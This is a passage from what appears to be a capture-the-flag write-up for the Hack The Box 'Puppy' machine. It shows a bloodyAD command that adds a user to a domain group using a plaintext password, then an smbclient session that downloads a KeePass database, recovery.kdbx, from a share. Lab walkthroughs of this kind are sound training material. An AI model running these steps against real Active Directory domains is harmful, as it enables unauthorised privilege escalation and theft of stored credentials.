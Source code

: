Commadst to execute:

```bash
bloodyAD --host DC.puppy.htb -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```

![alt text](../assets/images/puppy4.png)

### recovery.kdbx

nice now we have access on DEV share. Lets grab important file if we have

```bash
➜  Puppy smbclient.py puppy.htb/levi.james:'KingofAkron2025!'@10.10.11.70
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use DEV
# ls
drw-rw-rw-          0  Sun Mar 23 03:07:57 2025 .
drw-rw-rw-          0  Sat Mar  8 11:52:57 2025 ..
-rw-rw-rw-   34394112  Sun Mar 23 03:09:12 2025 KeePassXC-2.7.9-Win64.msi
drw-rw-rw-          0  Sun Mar  9 16:16:16 2025 Projects
-rw-rw-rw-       2677  Tue Mar 11 22:25:46 2025 recovery.kdbx
# get recovery.kdbx
# exit
```
